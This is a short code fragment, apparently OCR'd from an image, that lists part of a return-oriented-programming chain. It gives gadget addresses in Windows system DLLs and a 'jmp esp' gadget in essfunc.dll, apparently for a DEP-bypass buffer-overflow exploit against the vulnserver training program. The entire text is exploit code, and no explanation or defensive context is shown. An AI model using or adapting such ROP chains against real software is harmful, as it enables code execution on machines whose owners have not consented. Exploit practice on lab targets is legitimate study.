 ```python
        0x7521fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll] ** REBASED ** ASLR                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                           
        #[---INFO:gadgets_to_set_ebp:---]                                                                                                                                                                                                                                                                                  
        0x76e7c5ba,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                       
        0x625011af,  # & jmp esp [essfunc.dll]                                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                                                                                           
        #[---INFO:gadgets_to_set_ebx:---]                                                                                                                                                                                                                                                                                  
        0x76a342f9,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
        0xfffffdff,  # Value to negate, will become 0x00000201                                                                                                                                                                                                                                                             
        0x768a1643,  # NEG EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
        0x7521f9f1,  # XCHG EAX,EBX # RETN [MSCTF.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                           
        #[---INFO:gadgets_to_set_edx:---]                                                                                                                                                                                                                                                                                  
        0x7527ea50,  # POP EAX # RETN [MSCTF.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                       
        0xffffffc0,  # Value to negate, will become 0x00000040                                                                                                                                                                                                                                                             
        0x76963193,  # NEG EAX # RETN [user32.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
        0x74fa1110,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                                                                                           
```